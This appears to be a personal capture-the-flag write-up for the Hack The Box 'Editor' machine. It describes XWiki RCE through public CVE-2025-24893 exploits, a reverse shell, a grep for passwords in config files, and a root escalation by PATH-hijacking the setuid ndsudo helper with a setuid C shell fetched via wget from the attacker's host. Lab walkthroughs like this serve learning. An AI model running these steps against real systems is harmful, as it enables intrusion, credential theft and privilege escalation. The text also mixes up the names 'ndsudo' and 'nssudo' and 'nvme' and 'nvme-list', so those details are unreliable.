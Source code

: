 # Editor Season 8 Linux Machine 

So far after addind the domain name, in the web page there is much not to go with, other then sending and email to **contact** or downloading the text editor, but web browser stops. 
I will probaly come back to this. 

I will scan for vhosts or other directories. 
Ferox did not give me anything. Will try Ffuf just because. 
Nothing 

Will try to scan for vhots and found **wiki**. 

I searched for exploits and found, https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py. Did not seem to work. 

Found a login page in **wiki.editor.htb**, will see if this can be exploited.

Tried a manual SQLi, `' or 1=1-- - '` and also tried it with HTTP verp tampering. No luck 

Scanned the ip with the nmap and then gave me **8080**, was able to then find this as well, http://editor.htb:8080/robots.txt.

Within the nmap scan we can also see that there is a Jetty version, `8080/tcp open  http    Jetty 10.0.20`
Googling this version shows that there is exploits. This did not give me much, though I did try so file path traversal but nothing. 

Going back to this https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py and reading the code more carefully I realized that the input was I was giving it was all wrong. 
Once I corrected that, I was able to get **/etc/passwd**.

Found in the /etc/passwd:
Oliver 
MySQL

# Reverse Shell

I was not getting a revere shell from the repo, even though I tried to configure the code 4-5 times. Did not want to sit there and learn Groovy syntax to possibly modify the code better so I looked for other repos.

Following this RCE from repo, https://github.com/gunzf0x/CVE-2025-24893. I was able to get a revershell on the target.

Once I found **oliver** but got permission denied. 
Spent time trying to figure this out but going back to "keeping it simple", I decided to look for configure files that will have a password:
`find /etc ~/.config -type f -exec grep -i "password" {} + 2>/dev/null` with this command I was able to find the password for **oliver**.

Once in I got the user.txt

# Root

While I was previously trying to get user, I saw a lot of **netdata** information, and also saw that **oliver** was in that group. I kept some information from it.

`/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo -h` allows to use whitelisted commands:
```
The following commands are supported:

- Command    : nvme-list
  Executables: nvme 
  Parameters : list --output-format=json

- Command    : nvme-smart-log
  Executables: nvme 
  Parameters : smart-log {{device}} --output-format=json

- Command    : megacli-disk-info
  Executables: megacli MegaCli 
  Parameters : -LDPDInfo -aAll -NoLog

- Command    : megacli-battery-info
  Executables: megacli MegaCli 
  Parameters : -AdpBbuCmd -aAll -NoLog

- Command    : arcconf-ld-info
  Executables: arcconf 
  Parameters : GETCONFIG 1 LD

- Command    : arcconf-pd-info
  Executables: arcconf 
  Parameters : GETCONFIG 1 PD

```

After that I tried:
```
mkdir -p /tmp/mybin
echo -e '#!/bin/bash\nid\n/bin/bash -p' > /tmp/mybin/nvme
chmod +x /tmp/mybin/nvme

```
then ran to get root:
`PATH=/tmp/mybin:$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list` but did not work. Tried for the other commands as well.

Found ports using `netstat -tulpn` but dont know much on what to with it.

Trying to connect to one of the **MySQL** ports. Need password, wall.

Going back to **ndsudo**, I decided to go with a **.c** file instead:

**for the setuid, that may relate to bash protect mechanism**
I kept this in mind and came up with this:

### 🔧 Step 1: Crafting a malicious binary to escalate privileges

I created a C program (`nvme.c`) with the following contents:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```

This code is simple: it sets the **UID and GID to 0 (root)** and then spawns a root shell.


### 📦 Step 2: Compiling the payload on my local machine

Since the target didn’t have `gcc` installed and I had no `sudo` rights, I compiled the binary **on my own machine** like this:

```bash
gcc nvme.c -o nvme
```


### 🌐 Step 3: Transferring the binary to the target

I hosted the binary using Python’s built-in HTTP server:

```bash
python3 -m http.server
```

Then, on the target machine, I downloaded it:

```bash
wget http://<MY_IP>:8000/nvme
```


### 🗂️ Step 4: Setting up a fake `nvme` in a writable path

I knew that `/opt/netdata/usr/libexec/netdata/plugins.d/nssudo` executes `nvme-list`, expecting it to be a real binary.

But I suspected that it **didn’t use full paths**, and instead **trusted the `PATH` variable**. That meant I could trick it into running my binary if I put a fake `nvme-list` earlier in the `PATH`.

So I did this:

```bash
mkdir -p /tmp/mybin
chmod 700 /tmp/mybin
mv ./nvme /tmp/mybin/nvme
chmod +x /tmp/mybin/nvme
```

Note: Even though I named it `nvme`, it would be executed as `nvme-list` — but `nssudo` only calls `nvme-list`, and it was enough for the system to just find `nvme` in `$PATH`.


### 💣 Step 5: Exploiting `nssudo` with PATH hijacking

I ran:

```bash
PATH=/tmp/mybin:$PATH /opt/netdata/usr/libexec/netdata/plugins.d/nssudo nvme-list
```

What happened here:

* I **manipulated the PATH** so that `/tmp/mybin` is searched first.
* The `nssudo` binary has the **setuid bit** and is run as **root**.
* When `nssudo` calls `nvme-list`, it unknowingly calls **my backdoored `nvme`** from `/tmp/mybin`.
* My binary executes with **root privileges**, drops me into a **root shell**.


### 🧠 Why this worked:

* `nssudo` is a **setuid-root binary** that calls another binary (`nvme-list`) based on `PATH`.
* I abused **PATH hijacking** by placing my malicious binary early in `PATH`.
* I included `setuid(0)` and `setgid(0)` in my binary to **inherit root privileges** when executed.
* Since nssudo executed my binary as root, I gained a root shell.


